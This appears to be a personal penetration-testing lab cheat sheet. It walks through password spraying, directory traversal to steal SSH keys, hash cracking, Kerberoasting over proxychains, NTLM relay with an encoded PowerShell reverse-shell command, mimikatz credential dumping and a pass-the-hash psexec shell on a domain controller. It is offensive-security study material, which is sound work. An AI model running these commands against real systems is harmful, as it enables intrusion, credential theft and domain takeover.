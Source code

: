 
# How to Approach Boxes

## 1.) Stage KALI Loot Files
1. creds.txt  - contains all found creds, usersnames, passwords
2. usernames.txt - list of found usernames - can use with nxc to password spray
3. passwords.txt - list of known passwords - can use with nxc to password spray
4. As you find them, update files  new usernames, hashes, etc
```bash
echo "newuser" >> ./loot/usernames.txt             # we found a new user, lets add it to our file 
nxc smb 192.168.50.242 -u usernames.txt -p passwords.txt  # rerun password bruteforce with new user and existing passwords
nxc smb 192.168.50.242 -u user -p "pass" --shares         # if credential found, enum shares/perms
```

##  2.) Initial Scans
- initial nmap scans
- whatweb scan with api if web server
- google serach for plugins/software version and exploit 
- searchsploit plugins/software version and exploit 
- found exploit, for file retrieval with DIR Traversal
- grabbed /etc/passwd for users with login shells
- Grabbed /home/user/.ssh/id_rsa file for user
- changed perms on id_rsa
- attempt login, pw required
- convert with ss2john to ssh.hash
- crack with john
- login via ssh

## 3.) Foothold
- Just logged into box 1 with ssh
- use linpeas/winpeas and search for vulns
- chmod a+x linpeas if nceccessary
- found GTFOBIN for sudo -l /usr/bin/git
- WP file for DB access with pass
- identified non-standard WP install location
- Sudo allowed root escalation
- found another pw hash credential in GIT commit
- share enumeration with nxc located users
- client side phishing expliot sued to get marcus creds



## GIT 
```bash
git status
git log   			    # review GIT commit comments
git show 6127...af1	    # commit number from git log
```

## Proxy stuff
```bash
# View shares &  permissions
proxychains -q crackmapexec smb 172.16.6.240-241 172.16.6.254 -u john -d beyond.com -p "dqsTwTpZPn#nL" --shares

# nmap scan TCP full connect, as it won't work stealth scan over proxychains
sudo proxychains -q nmap -sT -oN nmap_servers -Pn -p 21,80,443 172.16.6.240 172.16.6.241 172.16.6.254

# if you find website, you must modify hosts file 
127.0.0.1 internalsrv1.beyond.com

# kerberroasting (TGS-REP hash) attempt through proxychains
proxychains -q impacket-GetUserSPNs -request -dc-ip 172.16.6.240 beyond.com/john

# also try with outputfile <filename.txt> (or -hashes <filename.txt>)
#crack and profit!
sudo hashcat -m 13100 daniela.hash /usr/share/wordlists/rockyou.txt --force
```
## WordPress access
- We found Backup Migration plugin, pointing to local directory
- ENUM showed  SMB signing is disabled 
- We can force the bakcup, and capture the crednetial, for use in relaying to other servers
-   force an authentication request by abusing the Backup directory
-   path of the Backup Migration WordPress, plugin on INTERNALSRV1. 
-  By setting the destination path to our Kali machine, we can use impacket-ntlmrelayx to relay the incoming connection to MAILSRV1.
    - NOTE: We use ntlmrelayx when we are unpriv user and can NOT exec mimikatz (ref 16.3.4)
    - KALI will relay the AUTH to a 3rd machine, which hopefully is using/shareing the same local uesrs accounts and passwords
- authentication request is made in the context of the local Administrator account on INTERNALSRV1
- Hopefully, the same password  as the local Administrator account on MAILSRV1.

```bash
# IN WP, modify the Backup directory path to point to KALI IP with fake file //192.168.KALI/test 
# MAILSRV1 IP is target for relay
# BASE64 powershell has our KALI IP:PORT to connect back to
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.242 -c "powershell -enc JABjAGwAaQ..."
```
- we should now be system
- move miimikats to box
- priv debu, securlsa.. dump everything
- we got creds for DA becky
- use impacket-psexec for shell on DC
```bash
proxychains -q impacket-psexec -hashes 00000000000000000000000000000000:f0397ec5af49971f6efbdb07877046b3 beccy@172.16.6.240
```
